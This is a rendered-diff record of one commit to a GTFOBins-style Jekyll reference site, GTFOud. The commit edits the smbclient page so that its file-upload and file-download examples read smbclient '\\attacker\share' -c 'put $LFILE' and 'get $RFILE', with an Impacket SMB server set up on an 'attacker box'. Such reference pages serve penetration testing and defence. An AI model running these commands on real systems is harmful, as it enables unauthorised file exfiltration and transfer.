

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/smbclient.md, in a window 1280 px wide, cut to the strip 339-834 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update smbclient.md

```diff
--- a/_gtfoud/smbclient.md
+++ b/_gtfoud/smbclient.md
@@ -4,9 +4,9 @@ functions:
   file-upload:
     - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.
       code: |
-        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
+        smbclient '\\attacker\share' -c 'put $LFILE'
   file-download:
     - description: Install [Impacket](https://github.com/SecureAuthCorp/impacket) and run `sudo smbserver.py share /tmp` on the attacker box to send the file.
       code: |
-        smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
+        smbclient '\\attacker\share' -c 'get $RFILE'
 ---
```
